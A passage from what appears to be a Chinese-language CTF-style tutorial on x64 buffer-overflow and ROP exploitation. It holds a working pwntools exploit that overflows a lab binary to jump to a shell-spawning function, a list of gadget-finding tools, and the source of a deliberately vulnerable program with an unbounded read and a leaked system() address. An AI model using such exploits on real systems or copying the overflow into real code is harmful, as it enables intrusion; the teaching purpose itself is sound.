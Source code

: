 Program received signal SIGSEGV, Segmentation fault.
0x0000464544434241 in ?? ()
可以看到我们已经成功的控制了PC的指针了。所以最终的exp如下：

#!python
#!/usr/bin/env python
from pwn import *

elf = ELF('level3')

p = process('./level3')
#p = remote('127.0.0.1',10001)

callsystem = 0x0000000000400584

payload = "A"*136 + p64(callsystem)

p.send(payload)

p.interactive()
四、使用工具寻找gadgets
我们之前提到x86中参数都是保存在栈上，但在x64中前六个参数依次保存在RDI，RSI，RDX，RCX，R8和 R9寄存器里，如果还有更多的参数的话才会保存在栈上。所以我们需要寻找一些类似于pop rdi; ret的这种gadget。如果是简单的gadgets，我们可以通过objdump来查找。但当我们打算寻找一些复杂的gadgets的时候，还是借助于一些查找gadgets的工具比较方便。比较有名的工具有：

ROPEME: https://github.com/packz/ropeme

Ropper: https://github.com/sashs/Ropper

ROPgadget: https://github.com/JonathanSa...

rp++: https://github.com/0vercl0k/rp

这些工具功能上都差不多，找一款自己能用的惯的即可。

下面我们结合例子来讲解，首先来看一下目标程序level4.c的源码：

#!c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>

void systemaddr()
{
    void* handle = dlopen("libc.so.6", RTLD_LAZY);
    printf("%p\n",dlsym(handle,"system"));
    fflush(stdout);
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    systemaddr();
    write(1, "Hello, World\n", 13);
    vulnerable_function();
}
编译方法：
